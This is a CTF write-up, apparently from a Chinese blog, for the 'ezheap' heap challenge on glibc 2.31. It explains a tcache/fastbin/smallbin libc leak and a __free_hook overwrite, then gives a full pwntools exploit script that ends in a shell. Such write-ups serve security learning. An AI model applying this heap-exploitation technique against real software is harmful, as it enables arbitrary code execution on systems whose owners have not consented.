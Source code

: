 # W4 ezheap

## 文件分析

下载`ezheap`, 保护全开  
ghidra分析为64位程序

## 解题思路

是一个note录入程序，很明显是堆题

libc是2.31，有tcache，有tcache校验，不方便double free；hook还在，考虑利用

tcathe能存7个相同size的chunk，先消耗掉，就可以把接下去分配的chunk放到
fastbin 里，然后通过分配大chunk来把fastbin里的chunk扫到smallbin里，
smallbin里就有libc，拿到libcBase就可以求偏移改hook，调system

这道题的限制:  
notebook有限，可以通过分配与note结构一样大的 "字符串"
来快速消耗tcache；  
edit函数检验了note的首项，如果不经修改，就是fd，
无法成功利用，需要先伪造note结构通过检验，还要把字符串地址改为freeHook，
就能把system写进freeHook里；  
freeHook还不在debug符号里，需要自己推出来

## EXPLOIT

```python
from pwn import *
lo = 1

if lo:
    sh = process('ezheap')
    gdb.attach(sh)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.31-0ubuntu9.12_amd64/libc-2.31.so')
else:
    sh = remote('node4.buuoj.cn', 25961)
    libc = ELF('libc-2.31.so')

def addn(idx:int, size:int, note:bytes=b'what'):
    sh.recvuntil(b'>>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'size')
    sh.sendline(str(size).encode())
    sh.recvuntil(b'note')
    sh.sendline(note)

def deln(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def show(idx:int):
    sh.recvuntil(b'>>')
    sh.sendline(b'3')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def edit(idx:int, note:bytes):
    sh.recvuntil(b'>>')
    sh.sendline(b'4')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(note)

addn(0, 64)
addn(1, 64)
addn(2, 64)
addn(3, 64)
addn(4, 64)
addn(5, 64)
addn(6, 64)
addn(7, 64)
addn(8, 64)
deln(6)
deln(5)
deln(4)
deln(3)
deln(2)
deln(1)
deln(0)
deln(8)
deln(7)
"""
bins now:
inuse: (size 0x51) 0 ~ 8
tcache: head -> 0 -> 1 -> 2 -> 3 -> 4 -> 5 -> 6 (full)
fastbin: head -> 7 -> 8
"""

addn(9, 1024)       #0 huge chunk to trigger malloc consolidate
"""
bins now:
inuse: ...
tcache: head -> 1 -> 2 -> 3 -> 4 -> 5 -> 6
small bins: head <-> 7 <-> 8 <-> tail
"""
addn(10, 64)        #1
addn(11, 32)        #2, 3 alloc 0x20 unit to consume bins quickly
addn(12, 32)        #4, 5
addn(13, 32, b'\n') #6, 8 FIFO; '\n' to avoid writing on fd
edit(13, b'')       # write a '\n' in the end (will be amended below)
show(13)            # chunk 8 in small bins, fd is libc addr

sh.recvuntil(b'(0~15): \n') # skip

# find offset first
dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
print('main_arena in libc:', hex(dumpArena))

# read and shift addr to libcBase
mainArena = u64(sh.recv(6) + b'\0\0') - 0x0a - 0x80 # sub '\n' & small bin offset
print('main_arena  actual:', hex(mainArena))
libcBase = mainArena - dumpArena
freeHook = libcBase + libc.symbols['__free_hook']
systemAddr = libcBase + libc.symbols['system']

edit(11, p64(64) + b'0'*0x10 + p64(freeHook)) # forge notebook[3], notebook[3] -> str = freeHook
edit(12, b'/bin/sh\0')                        # forge notebook[5] as the arg of system
edit(3, p64(systemAddr))                      # notebook[3] -> size == sizes[3] => *freeHook = systemAddr
deln(5)                                       # trigger freeHook

sh.interactive()
```

Done.
